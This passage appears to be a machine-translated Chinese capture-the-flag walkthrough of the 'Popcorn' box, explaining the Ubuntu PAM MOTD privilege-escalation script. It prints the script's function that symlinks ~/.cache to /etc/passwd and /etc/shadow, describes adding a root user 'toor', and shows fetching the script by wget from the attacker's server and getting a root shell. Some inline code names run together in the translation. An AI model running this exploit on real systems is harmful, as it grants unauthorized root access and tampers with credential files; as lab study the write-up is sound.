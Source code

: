 
`key_create`创建一个SSH密钥并将其安装到当前用户的主目录中，小心备份已经存在的任何内容。

`backup ~/.cache`将做到这一点 - 创建目录的备份副本。

该函数值得一看：`own`

    own() {
        [ -e ~/.cache ] && rm -rf ~/.cache
        ln -s "$1" ~/.cache || return 1
        echo "[*] spawn ssh"
        ssh -o 'NoHostAuthenticationForLocalhost yes' -i "$KEY" localhost true
        [ -w "$1" ] || { echo "[-] Own $1 failed"; restore ~/.cache; bye; }
        echo "[+] owned: $1"
    }
    

如果存在，它将删除它。然后，它创建指向目标文件的链接，首先从主体开始，然后是 。然后，它运行 SSH 连接到该框以运行该命令，然后断开连接。它验证它现在是否对文件具有写入权限。`~/.cache``/etc/passwd``/etc/shadow``true`

因此，在对 的每次调用中，它都会获得写入访问权限，然后添加一行，从而将用户 toor 添加为 root 用户，就像我手动执行的那样。`own`

然后，它会恢复 ，并清理添加的 SSH 密钥。`.cache`

最后，它使用一个 long 命令进行调用，以作为用户 toor 的 root 用户运行。当我输入该密码toor时，它会运行以下命令：`su -c`

*   从 和 中删除 toor 用户的行`/etc/passwd``/etc/shadow`;
*   将这两个文件的所有者更改为root;
*   将组更改为阴影;`/etc/shadow`
*   `nscd`是名称服务（包括）的缓存守护程序，这将使[缓存失效](https://linux.die.net/man/8/nscd)`passwd`;
*   运行以提供外壳。`bash`

基本上，它会自行清理，然后发射外壳。

#### 跑

我给盒子重置了一个，重新上传了一个网络外壳，得到了一个外壳，带有pty。然后我使用Python网络服务器（）上传脚本，并且：`python3 -m http.server 80``wget`

    www-data@popcorn:/dev/shm$ wget 10.10.14.14/pam_motd.sh
    --2020-06-21 22:28:38--  http://10.10.14.14/pam_motd.sh
    Connecting to 10.10.14.14:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3043 (3.0K) [text/x-sh]
    Saving to: `pam_motd.sh'
    
    100%[======================================>] 3,043       --.-K/s   in 0.004s  
    
    2020-06-21 22:28:38 (761 KB/s) - `pam_motd.sh' saved [3043/3043]
    

该脚本运行并返回根外壳：

    www-data@popcorn:/dev/shm$ bash pam_motd.sh 
    [*] Ubuntu PAM MOTD local root
    [*] SSH key set up
    [*] spawn ssh
    [+] owned: /etc/passwd
    [*] spawn ssh
    [+] owned: /etc/shadow
    [*] SSH key removed
    [+] Success! Use password toor to get root
    Password: 
    root@popcorn:/dev/shm#
    